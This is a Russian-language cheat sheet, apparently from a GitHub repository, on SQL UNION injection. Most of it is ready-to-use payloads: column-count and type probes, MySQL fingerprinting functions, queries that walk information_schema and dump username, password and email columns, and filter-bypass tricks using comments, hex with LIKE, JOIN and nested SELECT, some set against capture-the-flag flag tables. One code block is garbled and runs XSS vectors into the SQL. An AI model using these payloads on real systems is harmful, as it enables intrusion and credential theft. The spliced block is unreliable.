# Общее представление об атаке SQL UNION Injection

UNION SQL Injection реализуется в случае, если результаты SQL-запроса возвращаются в ответе приложения. Ответы могут быть разными: ошибки приложения, ошибки сервера, результаты запросов и другие.

**Оператор UNION позволяет запускать один и более SELECT-запросов. Например:**
```
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```
Этот SQL-запрос вернет один ответ с двумя столбцами, содержащими значения из столбцов a и b в table1 и столбцов c и d в table2.

**Чтобы UNION запрос сработал должны быть выполнены два ключевых момента:**
- Отдельные запросы должны возвращать одинаковое количество столбцов
- Типы данных в каждом стобце должны быть совместимы между отдельными запросами

**Чтобы успешно выполнить атаку SQLi UNION необходим знать:**
- Сколько столбцов возвращается из исходного запроса?
- Тип данных каждого столбца

**Определение количества столбцов:**

Есть два способа определения количества столбцов: через `ORDER BY` и `UNION SELECT`.

**Первый способ** - через `ORDER BY` это реализуется угадыванием количества столбцов, например:
```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

Итак, если в таблице есть 3 стобца, то на `ORDER BY 1--` будет ответ TRUE, т.е. вместо ошибки(500 ответа сервера), будет 200 ОК. И таким образом нужно перебирать значения, вплоть до 4-х, так как на `ORDER BY 4--` вылетит ошибка, обозначающая, что в таблице только 3 столбца.

**Второй способ** - через UNION SELECT:
```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```
Тут все также - перебираем NULL, пока не получим 200 ОК. Если взять таблицу с тремя столбцами, то ответы будут примерно такими:
```
' UNION SELECT NULL-- (500)
' UNION SELECT NULL,NULL-- (500)
' UNION SELECT NULL,NULL,NULL-- (200 OK)
```
Используем NULL, потому что NULL подходит для всех типов данных.

**Определение типа данных каждого столбца:**

Делается это методом перебора до получения(200 ОК), т.е. когда перестанут вылетать ошибки.

```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--Основныеметодывызоваjavascriptизhtml:<script>...</script><imgonerror="..."src="x">test</a><a href="javascript:...">click to trigger 
```

**Использование внутренних функций базы данных**:

Когда мы знаем количество столбцов, мы можем сделать данную вещь:
```
' UNION SELECT version(),null,null -- -
```

Ответ может быть примерно таким(вместо вывода имени пользователя выводится результат функции `version()`):
```
(...)
Sorry, 8.0.27-0ubuntu0.20.04.1 you are not eligible due to already qualifying.
(...)
```

**Некоторые функции из MySQL:**
```
@@hostname - имя хоста
@@tmpdir - директория /tmp/
@@datadir - директория /data
@@version - версия БД
@@basedir - базовая директория
user() - имя пользователя
database() - база данных
version() - версия
schema() - база данных
UUID() - системный UUID ключ
current_user() - текущий пользователь
current_user - текущий пользователь
system_user() - системный пользователь
session_user() - сессионый пользователь
@@GLOBAL.have_symlink - проверка на включенные/отключенные символьные ссылки
@@GLOBAL.have_ssl - проверка на SSL
```

# Последовательность действий для выполнения успешной атаки

Выводим все базы данных:
```sql
'union select group_concat(schema_name) from information_schema.schemata
```
Выводим все таблицы из базы данных `database1`:
```sql
'union select group_concat(table_name) from information_schema.tables where table_schema='database1'
```
Выводим все колонки из таблицы `table1`, которая находится в базе данных `database1`:
```sql
'union select group_concat(column_name) from information_schema.columns where table_schema='database1' and table_name='table1'
```
Выводим все данные `username`, `password`, `email` из таблицы `table1`, которая находится в базе данных `database1`:
```sql
Injection=> select group_concat("\n", username,":",password,":",email,"\n") from database1.table1
```

# Обход фильтров
## Запрещено [ , ' ( ) + = \ " ] + и пробел:
```
SELECT * FROM age WHERE age=$age
```
Вместо пробела можно использовать `/**/`, а вместо `where name='b548d45080b9d110'` использовать `where name like 0x62353438643435303830623964313130`:
```
1337/**/union/**/select/**/*/**/from/**/flags/**/where/**/name/**/like/**/0x62353438643435303830623964313130
```

## Запрещено все, кроме символов: a-z A-Z 0-9 ' ( ) , ] + и обход защиты от select:
```
SELECT * FROM age WHERE age=$age
```
Так как в таблице очень много флагов и нам нужен флаг с `name`=`3f1a76e536a0a805`, то нужно указать фильтр вывода, например, `where name='3f1a76e536a0a805'`, но знак `=` запрещен, следовательно можно использовать `LIKE` вместе с хексовым значением `name`:
```
1337 union Select null,name,flag From flags where name like 0x33663161373665353336613061383035
```

## Запрещено все, кроме символов: a-z A-Z 0-9 ' ( ) * и обход защиты от select:
```
SELECT * FROM age WHERE age=$age
```
Так как мы не можем перебрать количество колонок через `union select null,<null>,<...>`, то можно это сделать через JOIN AS:
```
1337 union Select * from flag JOIN (Select 'qwe') as a
```
Ответ:
```
MySQL error: The used SELECT statements have a different number of columns
```
Пробуем добавить еще одну колонку:
```
1337 union Select * from flag JOIN (Select 'qwe') as a JOIN (Select 'qwe') as b
```
И в ответе мы получаем флаг

## Запрещен SELECT полностью:
```
SELECT * FROM age WHERE age=$age
```
Можно использовать SELSELECTECT, если фильтры единоразово вырезают SELECT без цикла:
```
1337 union SELSELECTECT null,null,flag from flag
```

